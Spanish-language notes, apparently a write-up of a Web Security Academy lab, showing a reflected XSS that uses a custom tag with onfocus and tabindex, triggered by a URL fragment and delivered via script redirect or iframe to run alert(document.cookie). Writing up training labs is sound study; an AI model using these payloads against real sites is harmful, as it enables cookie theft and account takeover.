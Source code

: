 lhttps://www.youtube.com/watch?v=sjs6RS7lURk

Metemos esto en el campo de búsqueda, se va a reflejar en el DOM
```html
<custom-tag onfocus='alert(1)' id='x' tabindex="1">
```

Cuando en la url busquemos https://url#x , estaremos haciendo focus en el elemento y por lo tanto se ejecutará.

Tabindex -> si presiones en la url y le das n veces a tab te salta la alerta, con un custom tag.
==Es necesario usar tabindex ya que custom-tag no es un elemento focusable.==

No podemos usar un autofocus porque no está permitido en los custom-tags, tenemos que usar el attack server  para hacerle llegar al cliente la url que tiene que abrir para que se ejecute el xss:

https://0a8e006b049dd08a80a58f680018009d.web-security-academy.net/?search=%3Ccustom-tag%20onfocus='alert(document.cookie)'%20id='x'%20tabindex=%221%22%3E#x

```html
https://0a8e006b049dd08a80a58f680018009d.web-security-academy.net/?search=<custom-tag onfocus='alert(document.cookie)' id='x' tabindex="1">
```

```html
<script>
location='https://0a8e006b049dd08a80a58f680018009d.web-security-academy.net/?search=%3Ccustom-tag+onfocus%3D%27alert%28document.cookie%29%27+id%3D%27x%27+tabindex%3D%221%22%3E#x'
</script>
```

```html
<iframe 
  src="https://0a8e006b049dd08a80a58f680018009d.web-security-academy.net/?search=%3Ccustom-tag+onfocus%3D%27alert%28document.cookie%29%27+id%3D%27x%27+tabindex%3D%221%22%3E" 
  onload="this.src+='#x">
</iframe>
```



